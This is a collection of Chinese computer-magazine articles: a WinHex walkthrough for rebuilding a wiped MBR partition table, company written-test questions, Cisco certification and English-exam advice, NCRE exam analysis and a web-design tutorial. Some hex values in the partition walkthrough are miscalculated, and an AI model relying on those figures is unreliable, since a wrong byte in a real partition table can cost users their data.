用手工填写分区表的方式进行恢复，大致思路如下：如果发现异常，则应该尝试寻找并重构原来的分区结构，可以搜索扇区偏移510字节处的“55AA”来寻找有效的DBR或EBR。

最有可能的是在63号扇区搜索到一个DBR，因为通常情况下第一个分区为主分区，其起始位置通常位于63号扇区，如果第一个分区是FAT32文件系统，69号扇区还会有它的一个备份。

首先我们先了解一下基础知识，要学会手工填写分区表，必须了解分区表的构成，以及字节含义。在WinHex（新版试用下载：http://www.onlinedown.net/soft/4222.htm）中，打开物理磁盘，可以看到MBR信息。

MBR中的分区信息以55AA作为结束标志，以80为活动起始标志，80开始，一直到55AA之前的字节，一共是64个字节。下面将逐一分析MBR中64个字节的含义，我们将64个字节分为4部分：分区表一、分区表二、分区表三和分区表四。

#### 分区表一：

```
第1个字节
80：可启动分区
第2~4字节
01/01/00：磁头/扇区/柱面
0000 0001/0000 0001/0000 0000
1/1/0
开始柱面：0
开始磁头：1
开始扇区：1
第5个字节
0C：分区类型为FAT32
第6~8字节
FE/FF/FF：磁头/扇区/柱面
1111 1110/1111 1111/1111 1111
254/255/255
结束柱面：255
结束磁头：255
结束扇区：254
第9~12字节
00 00 00 3F：分区前隐含扇区数即63个隐藏扇区
0磁道到1磁道的63个扇区，为了保护分区表，减少磨损，零磁道只用了0扇区，1到62共62个扇区不用。
第13~16字节
5B 24 40 01：分区大小20980827个扇区
20980827+63=20980889才是第一个主分区的实际扇区数。
20980889*512/(1024*1024*1024)=10GB。
```

#### 分区表二：

```
第17个字节
00：不可启动分区
第18~20字节
00/C1/FF：磁头/扇区/柱面
0000 0000/1100 0001/00 1111 1111
0/193/255
开始柱面：255
开始磁头：0
开始扇区：193
第21个字节
0F：分区类型为扩展分区
第22~24字节
FE/FF/FF：磁头/扇区/柱面
1111 1110/1111 1111/1111 1111
254/255/255
结束柱面：255
结束磁头：255
结束扇区：254
第25~28字节
9A 24 40 01：分区前隐含扇区
20980890
（20980890=20980827+63）
第29~32字节
3A F7 06 07：分区大小130479930
130479930*512/(1024*1024*1024)=62.22GB。
扩展分区的大小即为62.22G。
分区表三和分区表四以此类推，这里不再细述。
```

### 任务实战

了解MBR的构成后，下面演示一个数据恢复操作的实例，首先清空分区表，以制造当时主分区表被破坏的实验环境，通过留存的DBR信息推导出能够界定分区的MBR信息，在清空前，我们先来对0扇区进行备份，注意，在做数据恢复之前，应该养成良好的习惯，就是在对某个区域进行大范围改动时，先对其进行备份，手工备份实际上就是将选定块的内容保存为一个新的文件或复制到磁盘上的另一个位置。本案例来自FCDA（飞客数据恢复工程师培训：http://www.fix.com.cn）。

**警告：**

下面的实例，是在一块无任何有用数据的硬盘上进行的演示和练习，如果你的硬盘上有用数据（甚至重要数据），请勿尝试。如果是真实的硬盘损坏导致数据丢失，请在专业人士指导下操作，或者送专业数据恢复公司修复。

### 实战：通过修复分区表找回数据

演示实例中，主机同时连接了两块硬盘，分别为“磁盘0”和“磁盘1”，磁盘1是正常运作的硬盘，而磁盘0已经被格式化，分区消失。

现在准备填写分区表，用WinHex分别打开磁盘1和磁盘0，是磁盘1（Hard disk 1）的第一个扇区，下方橘红色部分是磁盘1的MBR中的分区表信息，具体含义，已经在上文中描述。

从磁盘0的打开界面，可以看到，格式化以后MBR部分已经全部清零了，只有还原MBR才能恢复硬盘的分区信息，接下来我们将磁盘1的第一个扇区拷贝粘贴到丢失分区的磁盘0的第一个扇区中，因为磁盘中很多字节信息是相似的。

从第一扇区的倒数第五行80 01开始填写数据信息，80不变，01 01 00不变，我们需要确认第一个主分区是什么类型的分区，在“Search→Find Hex value”（搜索→查找十六进制值）中打开查找对话框，设置各项参数，向下搜索55AA结束标志，第一个55AA如橘红色标识部分，是我们刚刚粘贴的信息。

继续搜索55AA，第二个55AA或者第三个55AA所在扇区，一般为第63扇区，属于DBR起始扇区，右侧窗格中显示的红色NTFS，说明第一个分区格式为NTFS，那么在MBR中第五个字节应该更改成07，将红色位置改为07，其余不变，隐藏扇区数为63，转换为十六进制为3F 00 00 00，所以不需要改变，通常第一个分区的隐藏扇区数都为63。

继续搜索到下一个55AA位置，此处为本分区DBR的备份，即分区结束位置，可以看到扇区数为20482875，由于包含之前隐藏的63个扇区，所以第一个分区的扇区数为20482875-63=20482811，转换为16进制的数值为1388AFC，倒置输入为FC 8A 38 01。

保存后第一个分区就填写完毕了，因为WinHex有自动检测丢失分区的功能，所以确定分区大小，也可以在“View→Template manager→Boot sector·NTFS”（查看→模板管理→NTFS启动扇区）中观看分区大小信息。

使用同样方法来计算第二个分区的大小，00 FE FF FF不需更改，20482875扇区为第二分区的DBR，可以看到，分区格式仍然为NTFS，所以仍然填写07，结束的磁头、柱面、扇区，仍然填写FE FF FF，隐藏分区为20482875个扇区，换算成十六进制为1388B3B，反向填写成3B 8B 38 01。

同理找到下一个DBR位置计算出第二分区大小填入，寻找后，结束的DBR为61448625，那么第二个分区的大小为61448625-20482875=40965750，转换为16进制为76 16 71 20，由于找到的61448625扇区也是NTFS格式，所以仍然为07标记，继续搜索55AA，计算第三个分区的大小，转换为十六进制5A74310，逆序填充值为10 43 A7 05。

保存以上修改后，重启机器，再在Windows磁盘管理中查看分区状况，可以发现，丢失的分区可以正常打开，并且显示正常，分区表填写操作成功完成。

## 2010年各大公司笔试题大揭秘（一）

### 未来的网络新闻工作者

一般情况下，会对网络编辑出笔试题的公司多是较大的企业，并且从事的是专职编辑，不需兼职技术工作。

### 未来游戏策划师


把这个放在首位，也是源于广大同学们的“游戏”心理，总认为策划是个门槛儿很低的行业，但这个世界上怎么可能会有免费的午餐呢？来看看下面这些题你能做出来哪些吧？

- 1. 你是如何理解游戏策划这个岗位的（来自：搜狐）?  
分析：主要考察对岗位的了解情况及工作熟悉情况。要应聘的岗位，你总不能不知道它是干什么的吧？  
- 2. 请列出XXXX（网络游戏）官网的优缺点,针对这些缺点你会如何修改（来自：搜狐）?  
分析：解决官方网站的问题，一方面除了考察你的观察能力与处理问题的能力外，同时也能了解你对该公司的产品熟悉程度。同样的问题还有“选一款你熟悉的网络游戏，做分析，并举出有好的系统和差的系统；并对你觉得差的系统提出修改意见”（来自：网龙），如果连该公司的产品都不能了解那还考什么？  
- 3. 你认为3D网络游戏制作过程可能涉及哪些美术资源（比如：人物、界面、怪物）？（来自：搜狐）  
分析：策划是一个和多部门打交道的岗位，本题就是考察你对游戏开发的了解程度。  
- 4. 依据XXXXX现有平台，设计一个线上活动，无须GM操作（搜狐）。  
分析：这题已经是策划的专业知识了，用来考察系统设计师的玩法设计能力，类似的还有让你设计一个虚拟任务等等。  
- 5. 分别用一句话概括作品：《鹿鼎记》、《盘龙》，其他作品任意（来自：金山）。  
分析：在考察你概括总结能力同时也顺便了解你对“课外读物”的熟悉程度。同样的题型还有“写出《三国演义》中你最欣赏的一个人物，并描述之；写出《三国演义》中和你最相似的一个人物，并描述之。不少于100字。”（来自：金山）

- 笔试前一晚：  
- 1. 你酷爱游戏，可以不是高手，但要对游戏有独特的理解。  
- 2. 了解应聘公司的产品，是该公司出品网游的玩家。  
- 3. 通过论坛、博客等方式，了解游戏策划工作的具体工作。  
- 4. 在面试前可以登录游戏的官网，通过论坛等渠道，了解用户对游戏的反响。  
- 5. 注意平常要多读“课外”读物，四大名著、热门网络小说等作品，熟悉中外历史。

> 火速链接：  
要了解网络编辑工作的同学，可以参考本刊2009年第7期至第12期的“天生我才”栏目中的“网游策划师”系列文章。

- 1. 谈谈新浪、网易、搜狐、腾讯四家博客各自的特点，你最喜欢哪个，为什么？（来自：新浪）  
分析：博客编辑的笔试题，看到了吧，如果你只了解应聘公司的产品还不够，还需要了解该公司竞争对手的产品,否则只能YY了。  
- 2. 给一篇网友的博客，让你根据内容重新给起个标题,要求字数。（来自：新浪）  
分析：标题！标题，标题！网站的标题是相当有学问的，“北京的第一大姓是什么”和“北京第一大姓是王”，你说哪个更适合网络标题呢？  
- 3. 新浪想邀请英国某名人来开博,请你给她写封邀请信,先写中文再翻译成英文。（来自：新浪）  
分析：很早老师就教导我们，英语很重要了……  
- 4. 有人说“星座对自己的运势预测和性格描述很准”，请谈谈你的看法。（来自：网易）  
分析：如果你是那种被称为半仙的“专业算命师”，说不定这道题就会让你进入星座频道。  
- 5. 你认为网游是否在毒害青少年？（来自：网易）  
分析：对于热门话题的理解关注程度，一直是网站编辑应聘的必考点。  
- 6. 给文字加黑加深的HTML语言（来自：新浪）  
分析：虽说不要求你水平有多高，但是一些基本的语言还是提前准备一下为好。

### 网络技术支持

虽说这年头技术支持好像不太“吃香”，不过大树下面好乘凉，大公司的技术支持也非常不错。



- 1. 画出数字通信系统模型及描述各模块功能。（来自：大唐技术）  
分析：都说老师讲的东西没意思，可你别说，不管是国内几百强企业都喜欢考些基本概念的东西。不听老师讲，考场去现眼。像什么“UDP、TCP的区别”（大唐技术）、“OSI七层模型”（北京电信）这类的基础题要不会，你基本是白学了。

```
2. a=8;  
b=a++;  
c=++a;  
d=5*a++;  
请问a、b、c、d的输出结果是什么？（来自：大唐技术）  
分析：很容易的程序题，技术支持的难度大概就是这样的水平。
```

- 3. Please write an email to customer and explain how to configure Windows Live Mail Desktop to access USENET newsgroups and subscribe a newsgroup named talk.politics.china. (来自：微软)  
分析：微软全球化的服务理念，因此技术支持自然英语要不错。对于技术上只要知道一些基础知识就成了。比如What is DNS and how it is used? What is HTML? What is VPN? 这么的题估计会点网络基础的人都能解决。

- 笔试前一晚：  
- 1. 复习专业的理论知识。  
- 2. 技术的笔试题通常不会太难，如果你答得很好也不要高兴得太早，这只是开始。由于技术支持需要和人打交道，需要随机应变，所以面试是重头戏。像微软这样的电话面试更是全英文，而且有数次。  
- 3. 多了解网络方面的知识。  
不会大公司的笔试题也没关系，来几道搞笑魔兽GM招聘笔试题，你会吗？  
- 1. 《魔兽世界》是_________研发的大型多人在线游戏，他们的总部在_________。他们还曾开发过_________等几款游戏，并且喜欢在每年_________月_________日发布恶搞信息。  
- 2. 《魔兽世界》中所说的地球是指_________，火星则是_________。地球通往火星的大门位于_________大陆的_________，坐标是_________。它的传送原理是_________。  
- 3. 矮人，是_________遗留在艾泽拉斯大陆_________的变种，他们居住在_________，现任国王为_________。矮人的名字中通常包含自己的职业或爱好，其中_________的名字就与他最爱的美酒有关。  
- 4. _________族是《魔兽世界》里玩家可选种族中平均身高最高的种族，这个种族与侏儒族平均身高相差_________ CM，他们的种族天赋是_________。

> 小知识:霸王笔、霸王面、笔霸、面霸  
在没有收到求职公司笔试或面试通知的情况下，同学直接前往考试地点，“强行请求”参加笔试或面试，这种行为就是霸王笔、霸王面，这类同学就是传说中的笔霸、面霸。(大锅饭)

### NEW TECH . IT新技术

Electronic Tongue (电子舌头)
近日，伊利诺伊大学香槟分校的研究人员宣布了世界上第一个“电子舌头”传感器诞生，它可以根据传感器来感应各种味道，并将结果通过颜色显示出来。这种电子舌头的外观小巧，而且可以浸在食物样本中测出食物的味道(带入餐馆是个不错的主意)。研究人员希望能够用这种方法来更新现有的“高效液相色谱法”标准，该标准需要昂贵的机器和相应的技术人员。这种人工舌头的用途无限，它可以用阵列的色泽指示器来识别葡萄酒的年龄和品种，还可以检测有毒物质和人类的血糖水平。


Portland (支持10万口以太网交换机的软件)
美国加州大学圣迭戈分校的研究人员近日提出了一份报告，表示可以使数据中心网络大规模扩展的软件已研发成功。研究人员说，他们的软件Portland将使第2层数据中心网络结构可扩展到10万人，他们将与现有的硬件和路由达成协议，目标是让数据中心运营商作为一个单一的结构来管理他们的网络，网络管理员可以认为这是一个巨大的10万端口的无缝切换服务。在波特兰，交换机使用所谓的伪MAC地址和目录服务来查找他们所需要的服务器连接，包括新的虚拟服务器。研究人员表示，这样设置后可以不必建立一个3层网络，节省了许多体力劳动。

## 思科认证大揭秘

说起IT行业的认证，除了参与人数众多的全国计算机等级考试外，不少人还会想到微软、思科等认证。思科认证不断更新课程内容，再加上严格的认证考试，使其含金量不断增加。为了适应网络技术的新发展，思科的认证体系最近发生了较大变化。如何选择适合自己的认证？如何合法获得考试折扣号？如何高效学习？如何快速通过考试？成为不少同学关心的问题。

### 最新的思科认证体系

思科的认证体系比较复杂，从方向上来说，主要为网络支持和网络设计认证。思科职业认证按照不同的技术熟练程度，分为助理级的网络工程师、资深网络工程师和网络专家。认证有着严格的顺序，必须取得低一级的认证，才能参加高一级的认证，比如，要想取得CCNP认证，必须先取得CCNA认证，CCIE认证为思科最高级别的认证，截至2008年，中国CCIE的数量仅有2000多名。为了克服纯笔试的不足，CCIE增加了面试，面试官全由外国专家组成，试题为全英文，大大增加了通过的难度。

对于大多数同学来说，CCNA(思科认证网络工程师)属于比较基础的认证，而且深受市场欢迎，该认证成为事实上的首选认证，获得此认证表示具备基本的和初步的网络知识，包括网络基础、路由与交换、广域网等。拥有这一认证的人可以为小型网络(不超过100个节点)安装、配置和操作LAN、WAN和拨号接入服务。

近年来，由于网络知识更新太快，CCNA的知识体系不断庞大，难度不断增加。为此，思科在CCNA之下又设立了入门级的认证-CCENT。由于刚刚推出，市场认可度不高，原CCNA认证变为4个单独的认证：CCNA、CCNA安全、CCNA无线、CCNA语音，通过其他认证的前提是通过CCNA。

### 学习方法有讲究

除了专家级别的认证外，所有的认证全部采用远程上机考试，由VUE负责组织，考试时间可以随时预约。由于试题库试题有限且更新有一定的周期，尤其对于中文试题，更新更加缓慢，因此，不少培训机构想方设法获得题库，通过背题库的方式让学员通过考试，通过比例很高，通过这种“学习”获得的证书，由于没有扎实的实践，往往无法通过企业面试。

获得认证的另外一个途径是在思科的网络技术学院进行学习。目前，思科在全国数百所高校建立了网院，大家可以在这些网院中进行学习，由于属于非营利性机构，网院收费非常低廉，通常只有数百元。网院有着严格的学习期限、教学内容(包括实验)限制，因此可以学到很多知识，以CCNA为例，为了保证质量，CCNA分为4个小学期，每一小学期的最短时间为45天，每学期都有相应的期末考试和实验，需要全部通过才能结业。

思科网络设备价格很贵，不少学员缺乏良好的实验环境，因此，很多学员担心自己的实践动手能力。所幸的是，思科提供了实验的模拟软件Packet Tracer，通过它可以完成绝大多数网络实验，使用非常方便，不过此软件不能代替真实设备。

### 教材的选择

CCNA有CCNA-Exploration和CCNA-Discovery两种教材版本可以选择，Exploration适用于基础较好的同学，Discovery适用于基础稍差的同学，它们的最新版本都为4.0，但是由于Discovery刚刚出现，没有前面的版本，其知识的系统性、合理性大打折扣，建议大家使用Exploration版本。

### 折扣号的获得

网院毕业且第四学期final考试在75分以上的学员，可以在网院申请2折参加认证考试，比如CCNA，现在的考试价格为250美元，两折仅为50美元，具有相当大的吸引力，由于final考试要求一次通过且在75分以上因此，难倒了不少学员。其实，与其他各个学期不同的是，第4学期的中文final试题只有一套，更新周期很慢，因此，在网上可以很容易找到近似的试题。

通过网院考试的学员，可以申请思科网院的结业证书，千万不要错过。

### 轻松通过CCNA认证考试

由于考试由题库组成，对于不少学员来说，很难获得最新的考试题库，但是，由于认证考试知识点覆盖的要求，很多试题属于以前试题稍加变化构成，属于换汤不换药，因此，只要平时努力学习，考试前把以往的试题多看几遍，能够取得较好的考试效果。

考试时，不允许回看前面的题目(这一点和微软的考试不一样)，所以大家必须认真做完每一道题目。如果要是一遍点击右下角next，可没机会吃后悔药。另外需要提醒大家的是，由于中文试题存在着翻译问题(思科考试以英文答案为准)，因此建议采用英文试题。

### 网络大补贴：

思科网络技术学院官方网站http://www.cisco.com/web/CN/learnings/academy/index.html
非常好的学习论坛http://bbs.51cto.com/forum-218-1.html
(河南/赵建超)

## 英语四、六级冲刺数码备战全攻略

“四六级考试的日子一天天近啦，单词还没背，真题一道没看，怎么办？”数码时代，别着急，玩转你的电脑、手机和电子辞典，原本枯燥烦人的四、六级也可以时尚，可以炫。

### 单词篇

12月19日是下半年四、六级考试的时间，考试要过的第一关就是单词，如何在紧迫的时间里搞定单词呢？

### 强化记忆不快也光

记单词最重要的诀窍就是“一次多量，多次重复”，也就是说，一次性背诵大量单词，然后配合艾宾浩斯记忆曲线进行复习，多次反复记忆，就能在短时间内收效显著，抓紧整理出最不容易记住的单词，突击记忆，方法如下：
大纲要求的四级考试对词汇的要求是记忆4200个单词以及由这些词构成的常用词组，而六级更达到6000多词，比较合适的记忆周期安排是，以200个为单位，每天早上记忆200个左右的单词，然后在睡前再看一遍，第二天在背新单词的基础上，复习昨天背诵的200个单词，这样就算完成了第一个阶段的记忆，再在七天之后复习一次，不断循环，到考试的时候单词就能记得很纯熟啦。

### 单词软件来帮忙

有人要问啦，一天200个，如何才能记得住？其实第一、二遍背单词不必记住确切拼写，只要记住读音、混个脸熟就可以，然后通过不断重复，自然掌握。有没有比较便捷的软件或者数码产品帮助我们完成这个记忆过程呢？
首先推荐的是电子辞典，比如文曲星的单词背诵功能，它智能地将你每天背过的单词记下来，并按照记忆曲线规律安排了复习的时间，相信有它的监督和提醒，一定可以很好地完成。
智能手机的辞典功能也很好用，相关的软件可以去塞班智能手机论坛(http://bbs.dospy.com)上下截，这里是塞班手机操作用户交流的地方，也是各路软件的集散地。注册后找到自己手机对应的型号，然后在置顶区或是使用搜索工具找到相应的软件，下载软件安装版和词库，用手机的PC套件安装到手机上就可以啦。
此外，智能手机的记事簿、事件提醒功能也不要忘记哦，比如可以设置每天晚上10点半的备忘闹钟提醒自己：到时间啦，该背单词啦，就能避免忙碌时打破复习的规律和进程。

### 真题篇

做题和背单词从来不是分离的，二者配合才有最好的效果。
如果在做历年真题的大纲上有生单词就在大纲上划下来，划到最后你会发现，仅仅所有的阅读就包含了大纲上所有的单词。
从掌握出题思路来说，真题无疑是最好的资源，那么多命题组专家一年只专心出一套真题，题目简处处陷阱，题题要命。很多时候命题组的老师们都是扣紧了中国学生的思维方式的弱点去出题，因此，只有把真题认认真真做完，仔细分析透老师的出题思路才能绕过陷阱，拿到高分。
网络大补贴：
沪江四六级之备考专题真题（http://cet.hjenglish.com/papers.htm），不仅能下载到最新的真题，还有完整的听力音频和详尽解析。
新浪教育频道的题库（http://edu.sina.com.cn/shiti），可以在线测试，提交后可以看到正确答案，并自行评分。
中国四六级考试网（http://www.china-cet.com），四六级考试网（http://www.cet-46.com）下载题目之后，还可以把听力材料拷到MP3里随身携带，在等公交、去教室的路上都掏出来“磨磨耳朵”，找找语感，坚持一下，听力水准会有意想不到的提高哦。
除了枯燥地练习考试听力材料，还可以使用在线的BBC、VOA的听力材料来提高听力，听抄训练营(http://www.taisa.org/test/bbc_mp3/index.html)有最新的BBC和VOA的听力和文字材料，可以一边听一边记，然后再和原文比照，打字的过程还是单词拼写的熟练过程，对口语也会有很大的帮助哦，可谓一举三得。





比如Abbbyy Lingvo万能词典(http://bbs.dospy.com/thread-2452023-1-4.html)，首先把词典的软件和词库都下载下来，然后启动诺基亚PC套件，将软件安装到手机上。随后再在手机的存储卡（假设是E盘）里新建文件夹E:\ABBYY Lingvo\Dic，将词库文件拷贝进去，就可以用啦。

### 实战篇

离考试越近，听力的训练量应该要越大，这时训练建议以真题为主，可以反复地听，第一遍做题，第二遍检查，第三、四直到第n遍可以用来做听写练习。
要想在翻译题上拿高分，除了平时勤练之外，一定要把句子的逻辑关系（如因果、让步）等先搞清楚，再去翻译细节，才能够拿到高分。
至于阅读题，平时训练一定要注意时间的把握，在考场上建议先看题再看文章，能有效提高做题效率，清晰把握哪部分材料要略读，哪些要精读。
作文开头段一定要在草稿纸上写好再誊抄到卷子上，时间把握要均衡，留足填涂答题卡的时间。最好按顺序完成题目，避免漏题，文具、准考证、证件也要记得哦，祝大家都能考出好成绩！
（北京/杨乐）

## 2010年各大公司笔试题大揭秘（二）

看过了上期的非技术类职位的笔试题，这次我们重点介绍一些技术职位类笔试题，相信能给你扩展一定的思路。另外，这次有些题目的解决方法并非一种，我们只给出了部分分析，其中有些是来自一些笔试题满分的同学，仅供大家参考。

- 1 有10亿个数，这些数的值都在0~1000万之内，实现接口 get_bigger_count( unsigned value ) 输入一个值 value，返回这10亿个数中比 value 值大的数的数目。

```
class order_calculate
{
public:
    order_calculate();
    ~order_calculate();
    unsigned get_bigger_count( unsigned value );
}
```

注1: get_bigger_count接口会被频繁地调用，实现要高效
注2: 可以自己往内部任意添加变量和接口
注3: 有个现成的接口 unsigned get_value_by_index( int idx ) 可以调用，该接口返回指定索引的 value值。比如 get_value_by_index(100)，返回10亿个数中第100个数的值。该接口开销较大，尽量少调用。（来自：迅雷）

分析: 先建立10000001个元素的整型数组，初始化为0。然后对这10亿个数在硬盘上的数扫描一遍，以数的值作为下标，累加，直接扫描完毕。接着对这个数组从后向前累加，就可以得到比某数大的数的值。

- 2 有一副牌编号0~51，请把这副牌尽可能随机地发到4个人手里。

注1: 已经有rand()函数可以调用，但是rand()函数开销较大，请尽量少调用。
a,b,c,d分别是13个元素的1维数组
函数原型 void deal( int[] a, int[] b, int[] c, int[] d )。（来自：迅雷）

分析: 从第1张到第52张牌，每次都用随机函数分配给四个人之一，当某个人的牌数满了，就给序号数加一个数，再摸，得出的序号数再重新分配给其余的人，然后重复上面的操作。

- 3 实现字符串反转的c库函数 char* strrev(char* string)

注1: 不可利用其他库函数，算法尽量高效，占用空间少。（来自：迅雷）

分析: 先扫描一遍字符串，得到其长度，用两个指针 p，q 分别指向字符串的第一个位置和最后一个位置，然后过程++p，--q，一直交换下去，直到到达中间的字母就结果程序。

- 4 实现哈夫曼编码。（来自：千橡）

分析: 作业题一样的笔试题，如果这题你不会答，那就说不过去了，可以参考 http://work.newhua.com/cfan/200922/sc.txt。

- 5 假设有一台迷你计算机，有1KB内存和1MHZ处理器（假定1MHZ处理器能够每秒改变10^6次状态）。能够在这台计算机上运行且确定性终止（即运行到某种状态时必然终止，不存在死循环）的所有程序中，最长的运行时间可能是多少（写出你的推理过程，可以做出任意你需要的假定）？（来自：百度）

分析: 应该用最最底层的办法做。就是在内存放着一段代码，就这样让它跑。怎么让它跑得最长又不死循环呢？我想应该是让除了代码之外的所有内存在一个周期内加一位，也就是说把剩下的内存看作一个巨大的整型，正如int是32位一样，这个内存区域是XXX位。具体代码可以参考 http://work.newhua.com/cfan/200922/dm.txt。

- 6 一个典型的大型项目，通常由众多组件构成，这些组件之间复杂的编译依赖在构建整个系统时，是最让人头疼的地方之一。现在就有这样一个大型项目，由 N (N>1000) 个组件构成，每个组件都是可编译的，但组件之间存在着编译依赖，如组件N1依赖N2，即编译N1时，N2必须已经先编译完成，否则N1不能完成编译。虽然整个项目存在着复杂的编译依赖，但组件之间却没有循环依赖的问题。请设计一种快速算法，能完成整个项目的编译构建过程，并请给出算法的时间复杂度（设计算法时，请忽略组件的编译时间，另外，请不要考虑并行编译系统）。（来自：百度）

分析: 其实这是著名的穿衣问题，问题是一个人有内裤、裤子、皮带……这些东西，问人应该怎么穿才能不变成超人！所以解决方法也是一样的，就是拓扑排序。拓扑排序是先对图中所有子节点进行广度优先的遍历，然后在遍历同时标记遍历的起始时间和结束时间，然后对起始时间进行排序。

### 原题重现

- 1 URL是Uniform Resource Locator的缩写，即统一资源定位符，也就是我们常说的网址，为了便于理解，我们将URL简化成如下的形式，以 www.baidu.com/s?wd=baidu 为例：www.baidu.com 称为 site，后面的部分称为 path，每条URL都有一些对应的属性分为定长属性（如URL被系统发现的时间）和不定长的属性（如描述URL的文字）。

请设计一个系统，要求：
① 存储和维护100亿URL及其属性
② 实现URL及其属性的添加、更新和删除（不需要实时）
③ 给定一批URL，判定是否在系统中，如果在系统中，需要得到它的信息

④ 快速选出一个站点下所有URL及其属性信息
提示: 总体URL数量巨大，所以有必要把URL的存储以及相关的计算分布在多台机器上完成。（来自：百度）

- 2 20个阿里巴巴b2b技术部的员工被安排为4排，每排5人；我们任意选其中4人送给他们一人一本《effective c++》，那么我们选出的4人在不同排的概率为：
A. 5^4*5!*15!/20!
B. 4^5*5!*15!/20!
C. 5^4*4!*16!/20!
D. 4^5*4!*16!/20!（来自：阿里巴巴）

- 3 在ASC算法team日常开发中，常常面临一些数据结构的抉择，令人纠结。目前大家在策划一个FBI (Fast Binary Indexing) 项目，其中用到的词汇有6200条，词汇长度在10~15之间，词汇字符是英文字母，区分大小写。请在下面几个数据结构中选择一个使检索速度最快的。
A. 二叉搜索树，比较函数开销：1次运算/每字符
B. 哈希表，hash算法开销：10次运算/每字符
C. 链表，比较函数开销：1次运算/每字符
D. TRIE树，寻找子节点开销：1次运算/每字符（来自：阿里巴巴）

- 4 下面有关forward和redirect的描述，正确的是：
A. forward是服务器将控制权转交给另一个内部服务器对象，由新的来全权负责响应用户的请求
B. 执行forward时，浏览器不知道服务器发送的内容是从何处来；浏览器地址栏中还是原来的地址。
C. 执行redirect时，服务端告诉浏览器重新去请求地址。
D. forward是内部重定向，redirect是外部重定向。
E. redirect默认将产生201 Permanently moved的HTTP响应。（来自：阿里巴巴）

如果你觉得这些题还不过瘾，可以打开 http://blog.cfan.com.cn/?uid-14246-action-viewspace-itemid-1608141，这里有更多的笔试题，还有一些名企的薪酬。

- 5 关于守护线程的说法，正确的是：
A. 所有非守护线程终止，即使存在守护线程，进程运行终止。
B. 所有守护线程终止，即使存在非守护线程，进程运行终止。
C. 只要守护线程或者非守护进程其中之一存在，进程就不会终止。
D. 只有所有的守护线程和非守护进程终止运行之后，进程才会终止。

### 教育部考试中心专稿：2009年上半年全国计算机考试官方重难点真题分析（三级网络篇）

2009下半年的全国计算机等级考试进入倒计时，国家教育部考试中心作为NCRE的主办方，对2009上半年各科考试重点科目的精选真题在本刊连载官方点评，欢迎关注！如果你有任何问题，请发邮件到 NCRE@cfan.com.cn，我们将请考试中心的专家为你做权威解答。

2009年上半年三级网络技术的全国报考人数为26万左右，三级网络技术笔试的整卷难度为0.47，整卷的信度达到了0.89。全卷的难度适中，信度好。现就将本次考试中的部分试题做简要分析，以期帮助更广大的考生复习，取得满意的成绩。

典型试题分析：
(1) IEEE802.11无线局域网的介质访问控制方法中，帧间间隔大小取决于：_

A) 接入点 B) 交换机
C) 帧大小 D) 帧类型

这道题目是三级网络技术考核无线局域网理论知识典型试题，学习过网络专业的考生都知道，网络学习中最为重要的是网络协议的学习，不同的网络由不同的网络协议支撑，只有深入了解了网络协议最深的意义才能学好网络技术。此题涉及到IEEE802.11网络协议、帧间间隔等相关概念：首先，IEEE802.11协议是针对无线局域网的网络协议集，802.11工作组专门从事无线局域网标准的研究，早期提出的有IEEE802.11a、IEEE802.11b协议，目前在市场上厂商采用较多的是IEEE802.11g和IEEE802.11n。其次要领会“帧间间隔”的含义，所谓帧间间隔就是发送站在发送完一帧后，必须再等一个短的时间间隔，检查接收站是否返回用于确认的ACK帧。在IEEE802.11协议中规定，帧间间隔的长短取决于帧类型，高优先级的帧的帧间间隔短，可以优先获得发送权，所以答案选D。

(2) 以下P2P应用软件中不属于文件共享类应用的是：_
A) Skype B) Gnutella
C) Napster D) BitTorrent

此题是一道理论与实践相结合的试题。P2P (Peer to Peer) 是现今网络应用广泛的技术。P2P网络可以简单地定义成通过直接交换来共享计算机资源和服务。在P2P网络环境中，成千上万台彼此连接的计算机都处于对等的地位，整个网络一般来说不依赖于专用的集中服务器。目前，P2P应用大致可以分为文件共享、多媒体传输、即时通讯、数据存取、协同工作、P2P搜索及P2P分布式计算等六类应用。

平面设计师生存手册：机会风从网上来

网络的发展，给平面设计师带来了更多的机遇。现在不管是商业的还是非营利的机构，基本上都会有自己的网站，这就需要大量的人来创建和维护，工作机会大大增多。与传统的平面设计稍有不同，网页是在屏幕上显示的，但这改变不了它二维平面的本质。网页中插入的各种影视、动画元素需另当别论，但是它们也要服从于整体页面的二维布局设计及配色方案。

芝麻开门

CFan：网站招聘设计人员，一般是什么过程，都有哪些要求？

业内人士：大多数是通过校园招聘，以及在网站上发布招聘信息等，然后在众多的投送简历中进行初选。不过实际生活中，同学、朋友等熟人推荐的方式，成功的概率会更高。初选时，主要看应聘者发过来的作品，没有作品的我们可以出一些题目让他试做。通过的，就可以来单位实习了，一般会有7天的考察期。应聘的网页作品，主要看的是美术的功底，当然我们并不要求手绘等绘画的功底，而主要考察的是他对色彩及结构布局的把握，以及对作品是否有自己的想法。

任务实战

CFan：如何才能增加应聘的成功率？

业内人士：应聘网页设计师，首要的是美术功底，但是像一些技术层面的东西也是必须要掌握的。最起码的，要非常熟悉HTML语言的应用，必须精通Photoshop、Dreamweaver、Flash等专业软件的使用等。

实战：创建自己的个性网页
找工作的朋友，带上自己精彩的设计作品，必然能增强说服力。下面的实例，主要为大家介绍网页设计的一般流程，更精彩的作品则还要靠大家自己努力。本例的最终效果如图1所示。

规划网页，打有准备的仗

一般来说，网页版面分上、中、下三大结构。上部分是大多数是网站标志、广告条等，下方为版权说明，中间部分则是网页的内容主体。格局比较多，有单栏的，有左窄右宽（或左宽右窄）两栏的，也有分三栏的。当然并没有一定之规，完全视自己的设计需要划分。划定布局后，还需要指定各部分的色彩、整体背景色、文字颜色等等。如图2所示，是一个网页设计草图，可以在上面做各种标注，以作为后续制作的向导。



设定大背景：本例使用蓝色（R50G150B200, #3296c8），并选择工具箱中的渐变工具（快捷键为G）画出一条蓝色垂直渐变（本例为两边深中间浅，可随意设定）。接下来新建一个图层，在右上角使用椭圆选择工具画一个椭圆选区并填充上白色。然后按Ctrl+D键取消选择，再执行“滤镜→模糊→高斯模糊”菜单命令虚化椭圆形，一个简单而又有变化的网页背景就制作完成了。

1. 确定大背景

启动Photoshop（本文以CS3版为例）后，按Ctrl+N键快速新建文件，文件大小视具体情况而定。比较经典的屏幕大小是800×600（单位：像素），而现在1024×768的显示器已经很普及，各种宽屏显示器也渐渐流行，所以网页宽度超过800也没有多大问题。为方便演示，本例假设网页在800×600的模式下显示，除窗口边框、滚动条等，实际的网页大小应为779×434（IE浏览器）。不过很少有网页内容一屏就能容纳的，所以网页高度可视情况调整。



2. 简单方法制作特效图标

